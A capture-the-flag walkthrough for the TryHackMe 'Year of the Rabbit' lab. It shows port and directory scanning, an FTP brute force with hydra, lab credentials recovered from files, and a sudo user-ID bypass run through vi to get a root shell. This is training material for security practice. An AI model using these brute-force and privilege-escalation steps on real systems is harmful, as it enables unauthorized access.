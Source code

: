 # [Year of the Rabbit](https://tryhackme.com/room/yearoftherabbit)

## Time to enter the warren...

# Flags

### What is the user flag?

1. Nmap scan to identify open ports and running services

```bash
nmap -sV IP
```

[SCREEN01]

2. Use Gobuster to discover hidden directories and files on the web server

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js
```

[SCREEN02]

3. The CSS file `http://IP/assets/style.css` contains a hidden reference to `/sup3r_s3cr3t_fl4g.php`

4. Disable javascript in `about:config` by setting `javascript.enabled` to `false`

[SCREEN03]

5. In `http://IP/sup3r_s3cret_fl4g.php` one of the requests reveals the hidden directory `/WExYY2Cv-qU`

[SCREEN04]

6. Navigate to `http://IP/WExYY2Cv-qU/` and download the `Hot_Babe.png` image

7. Use the `strings` command to extract login and passwords from the image file

```bash
strings Hot_Babe.png
```

[SCREEN05]

8. Brute force the FTP service with the discovered username
   - The credentials are `ftpuser:5iez1wGXKfPKQ`

```bash
hydra -l ftpuser -P passwords.txt ftp://IP
```

[SCREEN06]

9. Connect to the FTP server and get `Eli's_Creds.txt`

```bash
ftp IP
ls -la
get Eli's_Creds.txt
```

10. Decode the text in [dCode](https://www.dcode.fr/brainfuck-language)
    - The credentials are: `eli:DSpDiM1wAEwid`

[SCREEN07]

11. Connect via SSH using the decoded credentials. Search for files containing "s3cr3t", and retrieve the user flag

```bash
ssh eli@IP
find / -name "*s3cr3t*" 2>/dev/null
ls -la /usr/games/s3cr3t/
cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
su gwendoline
# Password: MniVCQVhQHUNI
cat /home/gwendoline/user.txt
```

[SCREEN08]

---

### What is the root flag?

1. Check what sudo privileges the current user has

```bash
sudo -l
```

[SCREEN09]

2. Exploit vi to get root access, and get the root flag

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
:!/bin/bash # in vi
cat /root/root.txt
```

[SCREEN10]
